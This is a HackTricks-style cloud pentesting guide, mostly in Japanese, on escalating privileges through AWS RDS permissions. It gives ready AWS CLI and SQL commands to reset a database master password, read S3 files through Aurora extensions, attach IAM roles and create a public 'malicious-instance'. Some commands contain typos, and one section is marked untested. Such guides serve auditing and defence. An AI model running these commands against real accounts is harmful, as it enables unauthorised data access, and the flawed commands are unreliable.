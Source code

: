 # AWS - RDS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## RDS - リレーショナルデータベースサービス

For more information about RDS check:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

その権限があれば攻撃者は**マスターユーザーのパスワードを変更**でき、データベースへのログインを行うことができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> データベースに**接続できる必要があります**（通常はネットワーク内部からのみアクセス可能です）。

**潜在的な影響:** データベース内の機密情報を発見する可能性があります。

### rds-db:connect

この[**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### Abuse RDS Role IAM permissions

#### Postgresql (Aurora)

> [!TIP]
> **`SELECT datname FROM pg_database;`** を実行して **`rdsadmin`** というデータベースが見つかれば、**AWS postgresql database** の内部にいることがわかります。

まず、このデータベースが他のAWSサービスへアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を確認してみてください:
```sql
SELECT * FROM pg_extension;
```
もし **`aws_s3`** のようなものを見つけたら、このデータベースは S3 に対する何らかのアクセス権を持っていると推定できます（他にも **`aws_ml`** や **`aws_lambda`** といった拡張があります）。

また、**`aws rds describe-db-clusters`** を実行する権限があれば、出力の **`AssociatedRoles`** フィールドで **cluster に何かしらの IAM Role が紐付けられているか** を確認できます。もし紐付いていれば、そのデータベースは他の AWS サービスにアクセスするように準備されていると考えられます。ロールの **name**（あるいはロールの **permissions** を取得できれば）から、データベースがどのような追加アクセス権を持っているかを **推測** できます。

さて、バケット内のファイルを **読み取る** にはフルパスを知る必要があります。以下のように読み取れます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**があれば、S3データにアクセスするためにそれらを使うこともできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql は S3 にアクセスするために **パラメータグループの変数を変更する必要はありません**。

#### Mysql (Aurora)

> [!TIP]
> mysql 内で、クエリ **`SELECT User, Host FROM mysql.user;`** を実行して **`rdsadmin`** というユーザーが存在する場合、**AWS RDS mysql db** 内にいると見なせます。

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** のような変数に値がある場合、そのデータベースは S3 データにアクセスする準備ができていると見なせます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスタに **associated role** があるか確認できます（通常は AWS サービスへのアクセスを意味します）。

Now, to **read a file inside a bucket** you need to know the full path. You can read it with:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

権限 `rds:AddRoleToDBCluster` と `iam:PassRole` を持つ攻撃者は、既存の RDS インスタンスに **指定したロールを追加する** ことができます。これにより、攻撃者は **機密データにアクセスする** またはインスタンス内のデータを変更する可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: RDS インスタンス内の機密データへのアクセス、またはデータの不正な変更。\
Note that some DBs require additional configs such as Mysql, which needs to specify the role ARN in the aprameter groups also.

### `rds:CreateDBInstance`

この権限だけで攻撃者は既に存在し **IAM role** がアタッチされたクラスタ内に **新しいインスタンス** を作成できる可能性があります。マスターユーザーのパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開してしまうかもしれません:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: テスト

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、指定したロールをアタッチした新しい RDS インスタンスを **作成することができます**。攻撃者はその後、インスタンス内の **機密データにアクセスする** か、データを改変する可能性があります。

> [!WARNING]
> アタッチする role/instance-profile のいくつかの要件（[**here**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html) より）:

> - プロファイルはあなたのアカウントに存在している必要があります。
> - プロファイルには、Amazon EC2 が assume（引き受ける）権限を持つ IAM ロールが設定されている必要があります。
> - インスタンスプロファイル名とそれに関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**潜在的な影響**: RDS インスタンス内の機密データへのアクセス、またはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

権限 `rds:AddRoleToDBInstance` と `iam:PassRole` を持つ攻撃者は、**既存の RDS インスタンスに指定したロールを追加することができます**。これにより、攻撃者が**機密データへアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

> [!WARNING]
> この操作では DB インスタンスがクラスタの外にある必要があります。
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**潜在的な影響**: RDS インスタンス内の機密データへのアクセス、またはデータの無断変更。

{{#include ../../../../banners/hacktricks-training.md}}
